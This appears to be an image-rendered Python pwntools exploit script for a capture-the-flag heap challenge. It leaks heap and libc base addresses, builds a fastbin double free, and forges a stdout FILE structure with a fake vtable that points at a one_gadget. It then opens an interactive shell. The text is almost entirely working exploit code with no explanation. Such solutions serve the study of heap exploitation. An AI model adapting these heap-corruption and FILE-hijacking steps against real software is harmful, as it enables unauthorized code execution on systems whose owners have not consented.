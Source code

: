 ```python
add(0x10,'X','X')#3

visit()
cn.recvuntil('Name[3] :')
heap = u64(cn.recvuntil('\n')[:-1].ljust(8,'\x00'))-0x1058
success('heap: '+hex(heap))

add(0x100,'a','0')#4
add(0x100,'b','1')#5
free(4)
add(0xd0,'c','3')#6
visit()

cn.recvuntil('Name[6] :')
libc_base = u64(cn.recvuntil('\n')[:-1].ljust(8,'\x00'))-67-0x3c4b20
success('libc_base: '+hex(libc_base))

onegaeget=libc_base+0x4526a

pay = p64(onegaeget)*12
success(hex(onegaeget))
add(0x60,pay,'0')#7
vtable = heap+0x13f0


stdout = libc_base+libc.sym['_IO_2_1_stdout_']
success('stdout: '+hex(stdout))
fake = stdout+0x9d

add(0x28,'8','0')#8
add(0x28,'8','0')#9
add(0x28,'8','0')#10

add(0x60,'11','0')#11
add(0x60,'12','0')#12
add(0x60,'13','0')#13
add(0x60,'14','0')#14


free(8)
free(9)
free(10)

free(11)
free(12)
free(11)

pay = p64(fake)
add(0x60,pay,'0')#15
add(0x60,'pay','0')#15
add(0x60,'pay','0')#15

pay = '\x00'*0x10+'\x00'*3+'\xff'*4+'\x00'*(1+8+8+3) + p64(vtable)

cn.recvuntil("Your choice : ")
cn.sendline('1')
cn.recvuntil("Length of the name :")
cn.sendline(str(0x60))
cn.recvuntil('The name of pig :')
cn.send(pay)


cn.interactive()
```